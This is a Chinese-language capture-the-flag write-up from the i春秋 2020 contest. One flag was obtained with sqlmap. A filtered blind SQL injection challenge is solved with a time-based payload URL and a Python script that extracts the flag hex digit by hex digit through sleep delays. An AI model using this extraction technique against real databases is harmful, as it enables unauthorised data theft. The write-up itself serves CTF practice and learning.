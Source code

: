 date: 2020-02-26
categories:
- 比赛
tags:
- 比赛
- ctf
- wp
title: i春秋2020
---
# i春秋

## web

### 简单的招聘系统



sqlmap直接出来

flag{2f52809e-f46c-4638-8f72-b24ec1ec6d06}



### 盲注

过滤`union,<,>,=`

构造` http://75087ef5ae2c4685b155e915c62d0060b48ad2be758e45d8.changame.ichunqiu.com/?id=1 and if(hex(substr(fl4g,1,1))-1,sleep(5),0) `

```python
import requests

'http://75087ef5ae2c4685b155e915c62d0060b48ad2be758e45d8.changame.ichunqiu.com/?id=1%20and%20if(hex(substr(fl4g,POS,1))-GUESS,sleep(5),0)'
result="666c61677b32363837656433302d356266382d343033662d383732342d61643239"
l=len(result)
while True:
    ended=True
    l+=1
    for i in range(16):
        sql='http://ecd3dce145d342fd9d490cde15ef8239b1e8b5763640437a.changame.ichunqiu.com/?id=0%2bif(conv(substr(hex(fl4g),POS,1),16,10)-GUESS,1,sleep(5))'
        sql=sql.replace("POS",str(l))
        sql=sql.replace("GUESS",str(i))
        try:
            requests.get(sql,timeout=5)
            print(sql)
        except :
            result+=hex(i)[2:]
            print(result)
            ended=False
            break
    if ended:
        break

```
